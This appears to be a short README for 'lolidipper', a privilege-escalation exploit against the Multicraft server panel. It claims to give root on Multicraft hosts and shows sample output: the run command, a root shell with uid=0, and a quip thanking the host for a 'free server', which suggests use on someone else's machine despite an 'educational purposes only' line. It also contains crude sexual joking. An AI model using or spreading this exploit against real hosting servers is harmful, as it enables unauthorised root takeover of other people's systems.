 lolidipper.c
=======================

Multicraft privilege escelation exploit

This will exploit a flaw in multicraft and give full root permissions on a server running multicraft.
I can't stop you from using it on hosts, but please don't. This is for educational purposes only

Sample Output
==============
    ./lolidipper 1000 25465
    takes about 13 minutes to run because timeout->tv_sec is decremented once per second and 0xff*3 is 765.
        * some things you could do while waiting:
        * watch https://www.youtube.com/watch?v=t2we10nvE7A
        * watch https://www.youtube.com/watch?v=UX44ugzaqw4 $VAI $VAI $VAI $VAI
        * mastrubate to anime
    w00t w00t g0t r00t sh3ll!!!!
    # id
    uid=0(root) gid=25465(395231) groups=25465(395231)
    #free -g
                 total       used       free     shared    buffers     cached
    Mem:           104         74          30          0          0          1
    -/+ buffers/cache:          0          1
    Swap:          512        171        341
    #
    #
    # Thanks for free server.
    Thanks: command not found

